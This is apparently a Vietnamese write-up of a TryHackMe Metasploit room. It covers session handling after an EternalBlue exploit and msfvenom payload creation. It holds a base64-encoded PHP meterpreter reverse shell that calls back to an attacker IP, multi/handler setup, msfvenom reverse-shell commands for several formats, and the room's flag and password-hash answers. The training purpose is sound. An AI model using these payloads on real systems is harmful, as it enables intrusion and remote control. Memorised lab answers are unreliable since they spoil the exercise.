  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.186.44:4444 -> 10.10.12.229:49366 (10.10.12.229)
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

## Làm việc với các phiên

Lệnh `sessions` sẽ liệt kê tất cả các phiên đang hoạt động. Lệnh `sessions` hỗ trợ nhiều tùy chọn giúp bạn quản lý các phiên tốt hơn.

### Menu trợ giúp cho Sessions

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -h
Usage: sessions [options] or sessions [id]
Active session manipulation and interaction.
OPTIONS:
    -C   Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S   Row search filter.
    -c   Run a command on the session given with -i, or all
    -d        List all inactive sessions
    -h        Help banner
    -i   Interact with the supplied session ID
    -k   Terminate sessions by session ID and/or range
    -l        List all active sessions
    -n   Name or rename a session by ID
    -q        Quiet mode
    -s   Run a script or module on the session given with -i, or all
    -t   Set a response timeout (default: 15)
    -u   Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table
Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
Bạn có thể tương tác với bất kỳ phiên hiện có nào bằng cách sử dụng lệnh `sessions -i` theo sau là ID của phiên.

### Tương tác với các phiên

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions 
Active sessions
===============
  Id  Name  Type               Information                                                                       Connection
  --  ----  ----               -----------                                                                       ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.186.44:4444 -> 10.10.12.229:49366 (10.10.12.229)
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 1
[*] Starting interaction with 1...
C:\Windows\system32>
```

---
Ques 6: What is the content of the flag.txt file?

Ans 6: THM-5455554845

Ques 7: What is the NTLM hash of the password of the user “pirate”?

Ans 7: 8ce9a3ebd1647fcc5e04025019f4b875

---

# Task 6: Msfvenom

Msfvenom, thay thế cho Msfpayload và Msfencode, cho phép bạn tạo payloads.

Msfvenom sẽ cho phép bạn truy cập tất cả các payload có sẵn trong framework Metasploit. Msfvenom cho phép bạn tạo payload ở nhiều định dạng khác nhau (PHP, exe, dll, elf, v.v.) và cho nhiều hệ thống mục tiêu khác nhau (Apple, Windows, Android, Linux, v.v.).

**Payloads của Msfvenom**

```bash
root@ip-10-10-186-44:~# msfvenom -l payloads 
Framework Payloads (562 total) [--payload ]
==================================================
    Name                                                Description
    ----                                                -----------
    aix/ppc/shell_bind_tcp                              Listen for a connection and spawn a command shell
    aix/ppc/shell_find_port                             Spawn a shell on an established connection
    aix/ppc/shell_interact                              Simply execve /bin/sh (for inetd programs)
    aix/ppc/shell_reverse_tcp                           Connect back to attacker and spawn a command shell
    android/meterpreter/reverse_http                    Run a meterpreter server in Android. Tunnel communication over HTTP
    android/meterpreter/reverse_https                   Run a meterpreter server in Android. Tunnel communication over HTTPS
    android/meterpreter/reverse_tcp                     Run a meterpreter server in Android. Connect back stager
    android/meterpreter_reverse_http                    Connect back to attacker and spawn a Meterpreter shell
    android/meterpreter_reverse_https                   Connect back to attacker and spawn a Meterpreter shell
    android/meterpreter_reverse_tcp                     Connect back to the attacker and spawn a Meterpreter shell
    android/shell/reverse_http                          Spawn a piped command shell (sh). Tunnel communication over HTTP
    android/shell/reverse_https                         Spawn a piped command shell (sh). Tunnel communication over HTTPS
    android/shell/reverse_tcp                           Spawn a piped command shell (sh). Connect back stager
    apple_ios/aarch64/meterpreter_reverse_http          Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/aarch64/meterpreter_reverse_https         Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/aarch64/meterpreter_reverse_tcp           Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/aarch64/shell_reverse_tcp                 Connect back to attacker and spawn a command shell
    apple_ios/armle/meterpreter_reverse_http            Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/armle/meterpreter_reverse_https           Run the Meterpreter / Mettle server payload (stageless)
    apple_ios/armle/meterpreter_reverse_tcp             Run the Meterpreter / Mettle server payload (stageless)
```

## Định dạng đầu ra

Bạn có thể tạo các payload độc lập (ví dụ: một tệp thực thi Windows cho Meterpreter) hoặc tạo định dạng thô có thể sử dụng được (ví dụ: python). Lệnh `msfvenom --list formats` có thể được dùng để liệt kê các định dạng đầu ra được hỗ trợ.

## Bộ mã hóa (Encoders)

Trái với một số quan niệm, bộ mã hóa không nhằm mục đích vượt qua phần mềm chống virus được cài đặt trên hệ thống mục tiêu. Như tên gọi, chúng mã hóa payload. Mặc dù đôi khi có thể hiệu quả với một số phần mềm chống virus, nhưng việc sử dụng các kỹ thuật làm rối (obfuscation) hiện đại hoặc các phương pháp chèn shellcode sẽ là giải pháp tốt hơn. Ví dụ dưới đây cho thấy cách sử dụng mã hóa (với tham số `-e`). Phiên bản PHP của Meterpreter được mã hóa bằng Base64 và định dạng đầu ra là `raw`.

### Tạo một payload PHP

```bash
root@ip-10-10-186-44:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1507 (iteration=0)
php/base64 chosen with final size 1507
Payload size: 1507 bytes
eval(base64_decode(Lyo8P3BocCAvKiovIGVycm9yX3JlcG9ydGluZygwKTsgJGlwID0gJzEwLjEwLjE4Ni40NCc7ICRwb3J0ID0gNDQ0NDsgaWYgKCgkZiA9ICdzdHJlYW1fc29ja2V0X2NsaWVudCcpICYmIGlzX2NhbGxhYmxlKCRmKSkgeyAkcyA9ICRmKCJ0Y3A6Ly97JGlwfTp7JHBvcnR9Iik7ICRzX3R5cGUgPSAnc3RyZWFtJzsgfSBpZiAoISRzICYmICgkZiA9ICdmc29ja29wZW4nKSAmJiBpc19jYWxsYWJsZSgkZikpIHsgJHMgPSAkZigkaXAsICRwb3J0KTsgJHNfdHlwZSA9ICdzdHJlYW0nOyB9IGlmICghJHMgJiYgKCRmID0gJ3NvY2tldF9jcmVhdGUnKSAmJiBpc19jYWxsYWJsZSgkZikpIHsgJHMgPSAkZihBRl9JTkVULCBTT0NLX1NUUkVBTSwgU09MX1RDUCk7ICRyZXMgPSBAc29ja2V0X2Nvbm5lY3QoJHMsICRpcCwgJHBvcnQpOyBpZiAoISRyZXMpIHsgZGllKCk7IH0gJHNfdHlwZSA9ICdzb2NrZXQnOyB9IGlmICghJHNfdHlwZSkgeyBkaWUoJ25vIHNvY2tldCBmdW5jcycpOyB9IGlmICghJHMpIHsgZGllKCdubyBzb2NrZXQnKTsgfSBzd2l0Y2ggKCRzX3R5cGUpIHsgY2FzZSAnc3RyZWFtJzogJGxlbiA9IGZyZWFkKCRzLCA0KTsgYnJlYWs7IGNhc2UgJ3NvY2tldCc6ICRsZW4gPSBzb2NrZXRfcmVhZCgkcywgNCk7IGJyZWFrOyB9IGlmICghJGxlbikgeyBkaWUoKTsgfSAkYSA9IHVucGFjaygi.TmxlbiIsICRsZW4pOyAkbGVuID0gJGFbJ2xlbiddOyAkYiA9ICcnOyB3aGlsZSAoc3RybGVuKCRiKSA8ICRsZW4pIHsgc3dpdGNoICgkc190eXBlKSB7IGNhc2UgJ3N0cmVhbSc6ICRiIC49IGZyZWFkKCRzLCAkbGVuLXN0cmxlbigkYikpOyBicmVhazsgY2FzZSAnc29ja2V0JzogJGIgLj0gc29ja2V0X3JlYWQoJHMsICRsZW4tc3RybGVuKCRiKSk7IGJyZWFrOyB9IH0gJEdMT0JBTFNbJ21zZ3NvY2snXSA9ICRzOyAkR0xPQkFMU1snbXNnc29ja190eXBlJ10gPSAkc190eXBlOyBpZiAoZXh0ZW5zaW9uX2xvYWRlZCgnc3Vob3NpbicpICYmIGluaV9nZXQoJ3N1aG9zaW4uZXhlY3V0b3IuZGlzYWJsZV9ldmFsJykpIHsgJHN1aG9zaW5fYnlwYXNzPWNyZWF0ZV9mdW5jdGlvbignJywgJGIpOyAkc3Vob3Npbl9ieXBhc3MoKTsgfSBlbHNlIHsgZXZhbCgkYik7IH0gZGllKCk7));
root@ip-10-10-186-44:~#
```

## Trình xử lý (Handlers)

Tương tự như các khai thác (exploit) sử dụng reverse shell, bạn sẽ cần có khả năng chấp nhận các kết nối đến được tạo bởi payload của MSFvenom. Khi sử dụng một mô-đun khai thác, phần này sẽ được xử lý tự động bởi mô-đun đó. Bạn có thể nhớ tiêu đề `payload options` xuất hiện khi thiết lập reverse shell. Thuật ngữ thường dùng để mô tả việc nhận kết nối từ mục tiêu là *"bắt được shell"* (catching a shell). Reverse shell hoặc các callback Meterpreter được tạo trong payload của MSFvenom có thể dễ dàng được "bắt" bằng một handler.

Tình huống minh họa dưới đây có thể quen thuộc: chúng ta sẽ khai thác lỗ hổng tải tệp lên trong DVWA (Damn Vulnerable Web Application). Trong bài tập này, bạn sẽ cần tái hiện một kịch bản tương tự trên hệ thống mục tiêu khác; DVWA chỉ được dùng ở đây cho mục đích minh họa.

Các bước khai thác:

1. Tạo PHP shell bằng MSFvenom
2. Khởi động handler của Metasploit
3. Thực thi PHP shell

MSFvenom sẽ yêu cầu:

* Một payload
* Địa chỉ IP của máy cục bộ
* Cổng cục bộ mà payload sẽ kết nối đến

Trong ví dụ dưới đây, `10.0.2.19` là địa chỉ IP của AttackBox dùng trong cuộc tấn công và cổng cục bộ `7777` được chọn.

### Tạo PHP reverse shell

```bash
root@ip-10-0-2-19:~# msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 3020 bytes
root@ip-10-0-2-19:~#
```

**Lưu ý:** Tệp PHP đầu ra sẽ thiếu thẻ mở PHP (được ghi chú) và thẻ đóng (`?>`), như minh họa bên dưới.



Tệp **reverse\_shell.php** cần được chỉnh sửa để chuyển đổi thành một tệp PHP hoạt động.

**Bên dưới:** Các dòng ghi chú đã bị xóa ở phần đầu của tệp.



Below: End tag added


Chúng ta sẽ sử dụng **Multi Handler** để nhận kết nối đến. Module này có thể được dùng với lệnh `use exploit/multi/handler`.

Multi handler hỗ trợ tất cả payloads của Metasploit và có thể được dùng cho cả **Meterpreter** lẫn **shell thông thường**.

Để sử dụng module, chúng ta cần đặt giá trị payload (trong trường hợp này là `php/reverse_php`), **LHOST** và **LPORT**.

### Setting up the listener

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php
msf5 exploit(multi/handler) > set lhost 10.0.2.19
lhost => 10.0.2.19
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
msf6 exploit(multi/handler) > show options
Module options (exploit/multi/handler):
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (php/reverse_php):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.19        yes       The listen address (an interface may be specified)
   LPORT  7777             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Wildcard Target
msf6 exploit(multi/handler) >
```

Khi mọi thứ đã được thiết lập, chúng ta sẽ **chạy** handler và chờ kết nối đến.

### Chờ reverse shell

```bash
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.186.44:7777
```

Khi reverse shell được kích hoạt, kết nối sẽ được multi/handler nhận và cung cấp cho chúng ta một shell.

Nếu payload được đặt là Meterpreter (ví dụ: ở định dạng tệp thực thi Windows), multi/handler khi đó sẽ cung cấp cho chúng ta một Meterpreter shell.

## Các payload khác

Dựa trên cấu hình của hệ thống mục tiêu (hệ điều hành, máy chủ web, trình thông dịch đã cài đặt, v.v.), msfvenom có thể được sử dụng để tạo payload ở hầu hết mọi định dạng. Dưới đây là một vài ví dụ thường được sử dụng:

Trong tất cả các ví dụ này, LHOST sẽ là địa chỉ IP của máy tấn công, và LPORT sẽ là cổng mà handler của bạn sẽ lắng nghe.

**Linux Executable and Linkable Format (elf)**

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```

Định dạng `.elf` tương đương với định dạng `.exe` trong Windows. Đây là các tệp thực thi cho Linux. Tuy nhiên, bạn vẫn cần đảm bảo rằng chúng có quyền thực thi trên máy mục tiêu. Ví dụ: khi đã có tệp `shell.elf` trên máy mục tiêu, hãy sử dụng lệnh `chmod +x shell.elf` để cấp quyền thực thi. Sau khi hoàn tất, bạn có thể chạy tệp này bằng cách nhập `./shell.elf` trong dòng lệnh của máy mục tiêu.

### Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

### PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```

### ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

### Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

Tất cả các ví dụ trên đều là reverse payloads. Điều này có nghĩa là bạn sẽ cần có module `exploit/multi/handler` chạy trên máy tấn công của mình để hoạt động như một handler. Bạn sẽ cần thiết lập handler tương ứng với payload, LHOST và LPORT. Các giá trị này sẽ giống với những gì bạn đã sử dụng khi tạo payload bằng msfvenom.

---

**Câu 8:** Mật khẩu hash của người dùng còn lại là gì?
**Trả lời 8:**

```
$6$SyoNNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9P9kxgVbjrmtMez9EqXoDWtcQd8rftjc77hBFbWxjGmQCTbepo
```

**Tóm tắt**

Bây giờ bạn đã hiểu rõ hơn về cách Metasploit có thể giúp bạn xác định các lỗ hổng tiềm ẩn trên hệ thống mục tiêu và khai thác các lỗ hổng đó.

Bạn cũng đã thấy cách tính năng cơ sở dữ liệu có thể hỗ trợ bạn trong quá trình kiểm thử xâm nhập khi có nhiều mục tiêu tiềm năng. Cuối cùng, bạn đã có thêm kinh nghiệm với msfvenom và việc tạo ra các payload Meterpreter độc lập. Điều này đặc biệt hữu ích trong các tình huống bạn có thể tải tệp lên hệ thống mục tiêu hoặc tải xuống tệp từ hệ thống mục tiêu. Meterpreter là một công cụ mạnh mẽ cung cấp nhiều tính năng dễ sử dụng trong giai đoạn hậu khai thác.
